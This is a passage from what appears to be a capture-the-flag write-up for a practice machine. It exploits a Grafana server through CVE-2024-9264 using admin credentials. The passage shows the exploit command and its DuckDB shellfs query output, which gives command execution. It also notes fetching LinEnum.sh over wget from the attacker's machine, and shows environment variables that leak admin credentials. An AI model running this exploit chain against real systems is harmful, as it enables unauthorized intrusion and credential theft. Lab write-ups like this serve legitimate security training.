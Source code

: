 ```jsx
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Using the exploit along with the `admin` creds, we got a remote file read vuln.

```jsx
└─$ python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -c "ls -la /" [http://grafana.planning.htb](http://grafana.planning.htb/)
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la /
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM
read_csv('ls -la / >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 64
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Jun 13 05:56 dev
drwxr-xr-x   1 root root 4096 Apr  4 10:23 etc
drwxr-xr-x   1 root root 4096 May 14  2024 home
```

This is grafna instance is running inside a docker container.

Using [`LinEnum.sh`](http://LinEnum.sh) to enumerate the container.

(NOTE: Upload the script from your target machine using wget and hosting a web server on your attacking machine)

```jsx
[-] Environment information:
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
OLDPWD=/tmp
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```
